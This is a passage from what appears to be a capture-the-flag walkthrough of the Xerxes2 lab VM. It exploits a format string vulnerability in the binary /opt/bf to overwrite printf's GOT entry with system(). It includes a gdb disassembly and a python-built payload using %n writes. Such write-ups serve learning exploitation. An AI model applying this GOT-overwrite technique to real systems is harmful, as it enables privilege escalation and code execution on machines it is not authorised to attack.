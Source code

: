 Soooo, 0x40062000. We have the point in memory where `system()` lives, and we know where the program is going to go to lookup the `printf` function. All that is left now is to exploit the format string vulnerability, override the location of `printf` with `system`, and provide a new argument for the now fooled `printf` to run. A new argument can be given by simply providing another `#` (remember we have the source so that was easy to figure out).

###/opt/bf - part4
We have all the information we need, lets get to work.

We fire up `gdb`, and instead of printing the location of `AAAA`, we provide a memory address, with a `%n` format string so that we can write the amount of bites needed to override the pointer location.

To aid in getting the exact amount of padding right, we will set a breakpoint just before the application finished so that we can examine the pointer 0x08049a48 from the GOT:

```bash 
delacroix@xerxes2:~$ gdb -q /opt/bf
Reading symbols from /opt/bf...(no debugging symbols found)...done.

(gdb) disass main
Dump of assembler code for function main:
   0x08048684 <+0>: push   %ebp
   0x08048685 <+1>: mov    %esp,%ebp
   0x08048687 <+3>: and    $0xfffffff0,%esp
   0x0804868a <+6>: sub    $0x7540,%esp
   0x08048690 <+12>:    cmpl   $0x1,0x8(%ebp)
   0x08048694 <+16>:    jg     0x80486b7 <main+51>
   0x08048696 <+18>:    mov    0xc(%ebp),%eax
   0x08048699 <+21>:    mov    (%eax),%eax
   0x0804869b <+23>:    mov    %eax,0x4(%esp)
   0x0804869f <+27>:    movl   $0x804887c,(%esp)
   0x080486a6 <+34>:    call   0x8048390 <printf@plt>
   0x080486ab <+39>:    movl   $0xffffffff,(%esp)
   0x080486b2 <+46>:    call   0x80483c0 <exit@plt>
   0x080486b7 <+51>:    movl   $0x7530,0x8(%esp)
   0x080486bf <+59>:    movl   $0x0,0x4(%esp)
   0x080486c7 <+67>:    lea    0x10(%esp),%eax
   0x080486cb <+71>:    mov    %eax,(%esp)
   0x080486ce <+74>:    call   0x80483e0 <memset@plt>
   0x080486d3 <+79>:    mov    0xc(%ebp),%eax
   0x080486d6 <+82>:    add    $0x4,%eax
   0x080486d9 <+85>:    mov    (%eax),%eax
   0x080486db <+87>:    lea    0x10(%esp),%edx
   0x080486df <+91>:    mov    %edx,0x4(%esp)
   0x080486e3 <+95>:    mov    %eax,(%esp)
   0x080486e6 <+98>:    call   0x80484ec <bf>
   0x080486eb <+103>:   movl   $0x0,(%esp) # <-- we will break here
   0x080486f2 <+110>:   call   0x80483c0 <exit@plt>
End of assembler dump.

(gdb) break *0x080486eb
Breakpoint 1 at 0x80486eb

(gdb) run "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "%16$n")])')#"
Starting program: /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "%16$n")])')#"

Breakpoint 1, 0x080486eb in main ()

(gdb) x/x 0x08049a48
0x8049a48 <printf@got.plt>: 0x00000004
(gdb)
```
